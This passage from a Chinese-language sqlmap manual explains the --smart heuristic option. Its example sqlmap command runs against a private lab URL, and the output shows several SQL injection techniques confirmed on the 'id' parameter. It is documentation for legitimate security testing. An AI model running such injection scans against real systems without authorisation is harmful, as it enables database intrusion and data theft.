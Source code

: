 ### 启发式判断注入

参数：--smart

有时对目标非常多的 URL 进行测试，为节省时间，只对能够快速判断为注入的报错点进行注入，可以使用此参数。

例子：

```
$ python sqlmap.py -u "http://192.168.21.128/sqlmap/mysql/get_int.php?ca=17&user=foo&id=1" --batch --smart
[...]
[xx:xx:14] [INFO] testing if GET parameter 'ca' is dynamic
[xx:xx:14] [WARNING] GET parameter 'ca' does not appear dynamic
[xx:xx:14] [WARNING] heuristic (basic) test shows that GET parameter 'ca' might not be injectable
[xx:xx:14] [INFO] skipping GET parameter 'ca'
[xx:xx:14] [INFO] testing if GET parameter 'user' is dynamic
[xx:xx:14] [WARNING] GET parameter 'user' does not appear dynamic
[xx:xx:14] [WARNING] heuristic (basic) test shows that GET parameter 'user' might not be injectable
[xx:xx:14] [INFO] skipping GET parameter 'user'
[xx:xx:14] [INFO] testing if GET parameter 'id' is dynamic
[xx:xx:14] [INFO] confirming that GET parameter 'id' is dynamic
[xx:xx:14] [INFO] GET parameter 'id' is dynamic
[xx:xx:14] [WARNING] reflective value(s) found and filtering out
[xx:xx:14] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[xx:xx:14] [INFO] testing for SQL injection on GET parameter 'id'
heuristic (parsing) test showed that the back-end DBMS could be 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
do you want to include all tests for 'MySQL' extending provided level (1) and risk (1)? [Y/n] Y
[xx:xx:14] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[xx:xx:14] [INFO] GET parameter 'id' is 'AND boolean-based blind - WHERE or HAVING clause' injectable 
[xx:xx:14] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause'
[xx:xx:14] [INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause' injectable 
[xx:xx:14] [INFO] testing 'MySQL inline queries'
[xx:xx:14] [INFO] testing 'MySQL > 5.0.11 stacked queries'
[xx:xx:14] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[xx:xx:14] [INFO] testing 'MySQL > 5.0.11 AND time-based blind'
[xx:xx:24] [INFO] GET parameter 'id' is 'MySQL > 5.0.11 AND time-based blind' injectable 
[xx:xx:24] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[xx:xx:24] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other potential injection technique found
[xx:xx:24] [INFO] ORDER BY technique seems to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[xx:xx:24] [INFO] target URL appears to have 3 columns in query
[xx:xx:24] [INFO] GET parameter 'id' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
[...] 
```

### 初级用户向导参数
